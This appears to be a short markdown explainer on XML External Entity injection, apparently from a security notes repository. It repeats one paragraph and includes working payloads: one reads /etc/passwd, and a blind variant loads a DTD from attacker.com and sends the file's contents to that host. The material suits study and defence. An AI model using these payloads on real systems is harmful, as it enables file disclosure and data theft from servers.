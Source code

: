## XXE

- When we talk about XML External Entity (XXE) Injection, we're referring to a security vulnerability where an attacker 
can use malicious XML input to access system resources that would normally be unavailable, such as local files or network services. 
This vulnerability can be exploited in applications that use XML to process inputs, such as web applications or web services.
An XXE attack typically involves injecting a malicious XML entity into an HTTP request, 
which is processed by the server and can result in the exposure of sensitive information. For example, an attacker could inject 
an XML entity that references a file on the server's system and obtain confidential information from that file.

- An XXE attack typically involves injecting a malicious XML entity into an HTTP request, which is processed by the server and can result 
in the exposure of sensitive information. For example, an attacker could inject an XML entity that references a file on the server's system 
and obtain confidential information from that file.

- Here are some examples of XXE attacks

### File Disclosure:

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<foo>&xxe;</foo>
```

This example attempts to read the contents of the /etc/passwd file on a Unix-based system.

### Blind XXE:

```xml
<!DOCTYPE data SYSTEM "http://attacker.com/evil.dtd">
<data>&send;</data>
```

With evil.dtd containing:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY send SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
```

This example demonstrates a blind XXE attack where the content of /etc/passwd is sent to the attacker's server
